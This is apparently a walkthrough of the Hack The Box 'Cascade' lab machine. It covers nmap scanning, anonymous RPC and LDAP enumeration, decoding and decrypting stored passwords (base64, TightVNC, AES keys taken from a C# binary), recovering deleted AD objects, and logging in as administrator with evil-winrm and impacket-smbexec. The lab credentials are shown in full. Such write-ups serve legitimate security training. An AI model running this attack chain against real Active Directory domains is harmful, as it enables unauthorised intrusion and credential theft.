


Honestly, this box is not that hard. However it still took me 2 days because compromising
the first AD account was a nightmare for me.

I recommend this box for anyone who wants to learn more about horizontal movement
and enumeration.

You might noticed that the target's IP might change I few times in my notes. This is because I  got stuck/frustrated many times and couldn't finish the challenge in one go.

Last but not least,  make sure your clock is in sync with the target and DNS resolution is working fine, or else you gonna have problems. 

#### Host Discovery

> 
	-PR: Using the Address Resolution Protocol (ARP) L2 For host discovery.
	-sn: Not scanning ports only host discovery. 
	-n: Don't try to resolver domain names from the ipv4 address.
```sh
sudo nmap -PR -sn -n 10.129.38.44 -oN scans/discovery.txt
```


#### UDP  Top 20

> 
	-Pn: Don't check if the target is up.
	-sU: Scan UDP ports only.
	--top-ports=n: Most common n ports.
	--open: Show only open open/filtered ports.
```sh
sudo nmap -Pn -sU --top-ports=20 --open 10.129.38.44  | \
	grep -v 'filtered' | \
	tee scans/udp.txt
```


#### Open Ports Enumeration

> 
>	-sS: Perform a Syn Scan _**stops halfway through the 3-way handshake**_
	   --min-rate=1000: Very noisy, more aggressive than -T4, but more precise that -T5
	   -p-:  Scan all 65535 ports 
```sh
sudo nmap -Pn -n -sS --min-rate=1000 -p- 10.129.38.44 -oN scans/ports.txt
```


#### Services Fingerprinting

> 	-A :  Be passive aggressive. _**very noisy**_  
> 	-sV: It completes the 3-way handshakes, grabs banners and fingerprints services version.  
> 	-sC: Run default non intrusive NSE scripts. 
> 	ports=21,53,88...  I usually add at least one closed port to help nmap enumerate the OS. 
```sh
ports=21,53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49170
```
```sh
sudo nmap -Pn -n -A -sV -sC -p$ports 10.129.38.44 -oN scans/services.txt
```


---
#### RPC

Building an user list was a piece of cake because null login was possible. 
However there's no AS-REP roast-able account. 

Also, although it might seems that bruteforcing is a great idea. It will not take you anywhere. 

	Domain's Users
```sh
rpcclient -U '' -N //cascade.local -c 'enumdomusers'
```


---
#### LDAP

This was probably the most useful service we've found.  However it took me two days to recognize it's importance. Yes, two days. Try yourself ... one of the prints bellow holds the keys to the kingdom. Are you 133t enough to find it and less than two days ? 😔

	Anonymous access on ldap is possible
```sh
ldapsearch -x -H ldap://cascade.local -D '' -w '' -b "DC=cascade,DC=local" | \
	tee ldap.dump
```
	"Data Share" Group


	ryan: Member of the IT group, LoginCount is greater then 0


	Steve: Member of "Audit Share" group, might also have remote access.


	ArkSvc: Found an IT Service User with 13 logins on the DC.


	Steve has access on the "Audit Share": //Casc-DC1/Audit\$ 


#### Ryan Thompson

	We were missing  something very unusual!!! This alone took half of my sanity because I had missed the cascadeLegacyPWD property

```sh
echo clk0bjVldmE= | base64 -d
```


#### Bloodhound

	Ryan cannot provides with an initial foothold on the DC


	However we could use the account to access the "Data Share" and look for clues.


	We found an old email sent by Steve Smith where he says that the TempAdmin was created to perform some maintainance tasks and had the same password as the
admin's users.  Of course, this caught my attention because the arksvc account could've in theory be used to recover said credential.


	Also we found a misterious registry export containing an encrypted password.


	We also found some sort of log of some routine being executed by arksvc.


	Found a clue!!! ArkSvc will certainly be needed to recover TempAdmin password mentioned in Steve's email


	It took me a lot of trying and error, but eventually I figured out how to decrypt TightVNC's passwod using the hex we found in the Passoword attribute from the registry dump.
```sh
git clone https://github.com/trinitronx/vncpasswd.py.git
```


---


### Steve Smith
```sh
python2 ./vncpasswd.py -d -H '6BCF2A4B6E5ACA0F'
```


Awesome, we might have initial access on the server


	I made a mistake during my first attempt to access the server and did not recover the user flag until the very end. 

	I wrote the wrong domain for Steve's account, and obviously got a denied from kerberos.
```sh
evil-winrm -i casc-dc1.cascade.local\
	-u 's.smith@htb.local' \
	-p sT333ve2
```


	Not a big deal!  Cus we needed arksvc to privesc anyway.


---

#### Looking For Arksvc's Password

	First we've confirmed that Steve had access on the Audit$ share.
```sh
smbmap -u s.smith -p sT333ve2 -H casc-dc1.cascade.local 
```


	It was getting obvious we'll have to "reverse engineer" some binary. In this case we had an easy time, become we were dealing with C# and the source code was easily retrieved. 
```sh
smbclient -W CASCADE -U 's.smith%sT333ve2'  //casc-dc1.cascade.local/audit\$
```


	Well the password was indeed in the DB, but it was encoded using AES CBC


	 First, we had to verify which type of db we were dealing with.
```sh
 file -i Audit.db    
```
```
Audit.db: application/vnd.sqlite3; charset=binary
```

	And while exploring it with sqlite browser we found the encrypted password for arksvc


	Usually I like to took at the entropy to have a better idea what kind of mess I got myself into. 


	We had two pathways: we could reverse engineer the binary or we could just execute the binary from our box and capture the ldap authentication.

	Trying to intercept the authentication didn't work so I decide to have a look at the source code with a bit of .NET Reflector magic.


	We confirmed that it was using AES CBC and retrieve all the intel we needed from the source code to decrypt the password we found on the SQlite database. 
- found at Crypto.cs
```
iv: 1tdyjCbY1Ix49842
keySize: 0x80 (128)
blockSize: 0x80 (128)
AES CBC
```


-  found at: MainModule.cs
```
key: c4scadek3y654321
```


	Then I went to https://www.devglan.com/online-tools/aes-encryption-decryption
	and decrypted unsing the intel I've mentioned.


---

#### arksvc


	 I've double checked with bloodhount but we already new what to do from all the clues we've found along the way. 


- Got initial access using winrm.
```sh
evil-winrm -i casc-dc1.cascade.local \
	-u 'arksvc@cascade.local' \
	-p 'w3lc0meFr31nd'
```

	After we use a simple Get-AdObject to retrieve objects that had been deleted from AD.

	And we found the same cascadeLegacyPwD property. This that it was fairly easy. But the first time around, it took me two days.
```sh
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```


	 Yep , we got the administrator's password and was so cute. 


	And that's how we got system!
```sh
impacket-smbexec 'CASCADE.LOCAL/administrator:baCT3r1aN00dles@cascade.local'
```


---

Happy Hacking Boiis and Gals! 

